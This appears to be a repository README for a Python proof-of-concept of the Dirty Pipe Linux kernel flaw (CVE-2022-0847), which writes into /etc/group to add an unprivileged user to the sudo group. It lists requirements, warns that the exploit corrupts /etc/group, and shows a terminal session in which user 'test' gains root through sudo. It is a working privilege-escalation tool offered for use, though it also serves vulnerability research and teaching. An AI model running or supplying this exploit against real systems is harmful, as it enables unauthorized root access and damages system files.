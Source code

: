 # POC Exploit to add user to Sudo for CVE-2022-0847 Dirty Pipe Vulnerability

This repo is based of the Vulnerability, Writeup and Exploit produced by Max Kellermann all found [here](https://dirtypipe.cm4all.com/).

Just like everyone I had to take advantage of playing with the worlds most trivial to repro Priv Esc the blog post does a great job of explaining it all.

I translated the exploit into python simply to get a better feel for it, but this is an exact copy of the C exploit with the Sudo Priv esc hardcoded in.

## Requires
Python 3.10 (due to use of os.splice call)

## Bad bits
Corrupts the /etc/group file by writing into the line directly following the sudo entry. But when you are root you can fix this using the copy.

Places a copy of /etc/group at /tmp/group_backup

### Demonstation

```sh
test@kali:/home/user/working$ whoami
test
test@kali:/home/user/working$ sudo whoami
test is not in the sudoers file.  This incident will be reported.
test@kali:/home/user/working$ python3.10 poc.py
[*] Dirty PIPE POC [*]
[*] Exploit will add test to sudoers
[*] Finding offset of sudo entry in /etc/group
[*] Found sudo group offset
[*] Confirmed it is not last.
[*] Opening /etc/group
[*] Opening PIPE
[*] Contaminating flags of pipe buffer
[*] 65536 bytes written to pipe
[*] 65536 bytes read from pipe
[*] Splicing byte from /etc/group to pipe
[*] Spliced 1 bytes
[*] Altering group to add test
[*] 6 bytes written to /etc/group
test@kali:/home/user/working$ su test
Password:
test@kali:/home/user/working$ sudo whoami
root
test@kali:/home/user/working$
```
